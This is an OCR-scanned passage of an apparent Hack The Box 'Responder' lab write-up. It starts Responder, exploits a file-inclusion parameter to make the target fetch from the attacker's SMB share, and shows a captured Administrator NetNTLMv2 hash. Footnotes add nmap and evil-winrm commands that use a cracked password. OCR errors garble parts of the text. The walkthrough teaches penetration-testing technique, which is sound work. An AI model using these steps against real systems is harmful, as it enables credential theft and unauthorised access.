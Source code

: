     SMB = On
    RDP = On
    Kerberos = On
    FTP = On
    POP = On
    SMTP = On
    IMAP = On
    HTTP = On
    \[ \* \* SNIP \* \* \]
    sudo python Responder . py -I tune
    NBT-NS, LLMNR & MDNS Responder 2.3
    Author: Laurent Gaffie ( laurent . gaffie@gmail. com)
    To kill this script hit CTRL-C
    \[+\] Poisoners :
    LLMNR
    \[ ON \]
    NBT-NS
    \[ON\]
    DNS/MDNS
    \[ ON\]
    \[+\] Servers :
    HTTP server
    \[ ON\]
    HTTPS server
    ON \]
    WPAD proxy
    \[OFF \]
    SMB server
    \[ ON \]
    <SNIP>
    \[+\] Listening for events. ..
    With the Responder server ready, we tell the server to include a resource from our SMB server by setting
    the page parameter as follows via the web browser.
    http://unika.htb/?page=//10. 10.14.25/somefile
    In this case, because we have the freedom to specify the address for the SMB share, we specify the IP
    address of our attacking machine. Now the server tries to load the resource from our SMB server, and
    Responder captures enough of that to get the NetNTLMv2.
    Note: Make sure to add http:// in the address as some browsers might opt for a Google search instead of
    navigating to the appropriate page.
    After sending our payload through the web browser we get an error about not being able to load the
    requested file.
    / unika.htb/7page=//10.10.14.25/whatever
    Getting Started @ Start Parrot OS @ Community @ Docs @ Git @ CryptPad Privacy Pentest Learn \| Donations and Gadgets
    Warning: include(\\10.10.14.25\\WHATEVER): Failed to open stream: Permission denied in Coxampp\\htdocs\\index.php on line 11
    Warning: include(): Failed opening //10.10.14.25/whatever' for inclusion (include_path='\\xampp\\php\\PEAR') in C:\\xampp\\htdocs\\index.php on line
    11
    But on checking our listening Responder server we can see we have a NetNTLMv for the Administrator user.
    \[+\] Listening for events. . .
    \[ SMB \] NTMLV2-SSP Client
    : 10. 129. 136.91
    \[SMB \] NTMLV2-SSP Username
    : DESKTOP-H30F232\\ADdministrator
    SMB \] NTMLV2-SSP Hash
    : Administrator : : DESKTOP-
    H30F232 : 1122334455667788 : 70A87A2CCB487 AD9B76C7BOAEAEE133 : 0101000000000
    000005F32148534D801FOE8BB688484(96C0000000002000800420044004F0032000100

[^1]: C
[^2]: C
[^3]: C
[^4]: \[us- starting-point-vip-1-dhcp\]-\[10. 10. 14.34\]-\[htb- versunpan@pwnbox-base\]-\[\~\]
[^5]: - \[\*\]$ nmap -p- -T5 -sV $ip
[^6]: \[\*\]$ evil-winrm -i 10. 129.212.201 -u administrator -P 5985 -p badminton
[^7]: Responder Write-up
[^8]: Windows New Technology LAN Manager (NTLM)
